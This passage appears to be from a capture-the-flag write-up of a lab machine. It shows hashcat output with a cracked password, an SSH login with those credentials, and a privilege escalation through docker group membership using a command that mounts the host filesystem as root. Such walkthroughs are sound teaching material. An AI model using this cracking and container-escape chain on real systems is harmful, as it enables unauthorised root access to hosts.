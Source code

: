 ```
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: n1ckos -> morrison_22
Hardware.Mon.#1..: Temp: 66c Util: 44% Core:1518MHz Mem:3003MHz Bus:16

```
in hashcat `-m` means to identify hashtype so `0` is `md5` to get what number is your hashtype you can simply use `man hashcat` and find it. 

Answer:n100906

9.

```
$ ssh r00t@10.10.19.14
The authenticity of host '10.10.19.14 (10.10.19.14)' can't be established.
ECDSA key fingerprint is SHA256:RWpgXxl3MyUqAN4AHrH/ntrheh2UzgJMoGAPI+qmGEU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.19.14' (ECDSA) to the list of known hosts.
r00t@10.10.19.14's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct  7 14:38:02 UTC 2020

  System load:  0.03               Processes:           101
  Usage of /:   24.3% of 19.56GB   Users logged in:     0
  Memory usage: 74%                IP address for eth0: 10.10.19.14
  Swap usage:   0%


1 package can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

r00t@ultratech-prod:~$ ls
r00t@ultratech-prod:~$ ls -la
total 28
drwxr-xr-x 4 r00t r00t 4096 Oct  7 14:38 .
drwxr-xr-x 5 root root 4096 Mar 22  2019 ..
-rw-r--r-- 1 r00t r00t  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 r00t r00t 3771 Apr  4  2018 .bashrc
drwx------ 2 r00t r00t 4096 Oct  7 14:38 .cache
drwx------ 3 r00t r00t 4096 Oct  7 14:38 .gnupg
-rw-r--r-- 1 r00t r00t  807 Apr  4  2018 .profile
r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t: 
Sorry, user r00t may not run sudo on ultratech-prod.
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
^C
```
